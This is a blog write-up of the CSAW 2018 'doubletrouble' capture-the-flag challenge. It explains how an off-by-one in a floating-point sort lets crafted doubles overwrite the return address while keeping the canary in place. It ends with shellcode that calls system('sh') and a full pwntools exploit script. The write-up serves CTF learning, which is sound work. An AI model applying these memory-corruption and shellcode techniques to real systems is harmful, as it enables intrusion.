 ```yaml
---
layout: post
title: "[CSAW:doubletrouble] Floating point sort."
comments: true
--- 
```


# The task.

![](/assets/files/ctf/2018/csaw/doubletrouble/task.png)

  * [original link](https://ctf.csaw.io/challenges#doubletrouble)
  * [attach](/assets/files/ctf/2018/csaw/doubletrouble/doubletrouble.zip)
  * [ctftime](https://ctftime.org/event/633)

# The bug.

Let's run the app.

![](/assets/files/ctf/2018/csaw/doubletrouble/run.png)

The first address it shows `0xffb4a578`, is array address on the stack, so it's probably a hint to exploiting approach. Let's check binary security.

![](/assets/files/ctf/2018/csaw/doubletrouble/checksec.png)

So we got an executable stack, no PIE but canary. Let’s analyze the binary for any vulnerabilities. Everything looks good, except this:

![](/assets/files/ctf/2018/csaw/doubletrouble/decompile.png)

That `*a1 += (int)&GLOBAL_OFFSET_TABLE_ - 134529023;` is just `*a1 += 1`, where `a1` is pointer to lenght of the user input array. 

After `findArray()` there is call to `sortArray()`.

![](/assets/files/ctf/2018/csaw/doubletrouble/sortArray.png)

So we basically can run sort with modified length of the array, affecting data right after it. Let's inspect a stack layout.

![](/assets/files/ctf/2018/csaw/doubletrouble/stack.png)

The attack plan is to craft such input data, that after sorting, canary will remain at the same place, but ret address will be our input data.

So we need to sort at least 0x18 bytes after user input array. We should craft our new length to be at least 64 (max possible user input) + 3 (which is 0x18 / 8)

# The double.

User input is stored as `double`. Let's remember how `double` is represented in memory.

![](/assets/files/ctf/2018/csaw/doubletrouble/618px-IEEE_754_Double_Floating_Point_Format.svg)

We can manipulate that type with python as well.

```
>>> "%.20g" % struct.unpack("<d", p64(0xf8ffffffffffffff))[0]
'-6.9244620785013907482e+274'
>>> struct.pack("<d", -6.9244620785013907482e+274).encode("hex")
'fffffffffffffff8'
```

# The exploit.

The first thing we need to do is to patch array size. The bug is triggered when the input is `> -100` and `< -10`. For example, if we want to patched length equal to 67 (which is 64 + 7), we should send first two values, not in that range, and second - in that range. 

We will set huge negative value as our most user data, so it will appear on top of sorted data, and will not affect our result mostly. However, we can only use the new return address greater than the original one, otherwise, it will not be sorted, as we need. 

My strategy was to jump on `ret`, and use next `double`'s low DWORD to control EIP. So now we need to use 64 + 4 as new size.

After we control EIP, we should execute the shell. Since the stack is executable and there is `system()` address binary, and `sh` is also present, we can just pop a shell with 2 opcodes:
```
push 0x804A12D
call dword ptr [0x804BFF0]
```

We can embed that shell code in our input, like this:
```
	sh1 = asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe')
	sh2 = asm("call dword ptr [0x804BFF0]").ljust(8, '\xfc')

	r.sendline("%.20g" % struct.unpack("<d", sh1)[0])
	r.sendline("%.20g" % struct.unpack("<d", sh2)[0])
```

This will give us a proper sorting result, and that shellcode will appear in the right order since our high bytes are '\xfe' and '\xfc', which basically is just huge negative values. Since we got a leak at the start of the program, we can use that address to jump on it.

Canary value is participating in sorting as part of high dword of `double`. So we can only achieve proper sorting when the last byte of canary will be positive and `< 0x08` (because our return address highest byte it `0x08`. That's why exploit is not stable at all but can do the job.  

The final exploit will look like this:

```
	r.recvuntil("0x")
	stack = r.recv(8)

	stack = int(stack, 16)
	log.info("stack 0x%x", stack)

	r.sendlineafter("long: ", str(64))

	pad = "%.20g" % unpack("<d", p64(0xf8ffffffffffffff))[0]
	jmp  = 0x080498A4ffffffff # ret gadget
	jmp2 = 0x0806000000000000 + stack # addr of shellcode


	sh1 = asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe')
	sh2 = asm("call dword ptr [0x804BFF0]").ljust(8, '\xfc')

	r.sendline("%.20g" % struct.unpack("<d", sh1)[0])
	r.sendline("%.20g" % struct.unpack("<d", sh2)[0])

	for i in range(0, 2):
		r.sendline(pad)

	r.sendline(str(-99))
	r.sendline( "%.20g" % struct.unpack("<d", p64(jmp))[0])
	r.sendline( "%.20g" % struct.unpack("<d", p64(jmp2))[0])

	for i in range(0, 64-7):
	 	r.sendline( pad)

	r.sendline("ls")
	r.interactive()
```

The full version is [here](/assets/files/ctf/2018/csaw/doubletrouble/xpwn.py).
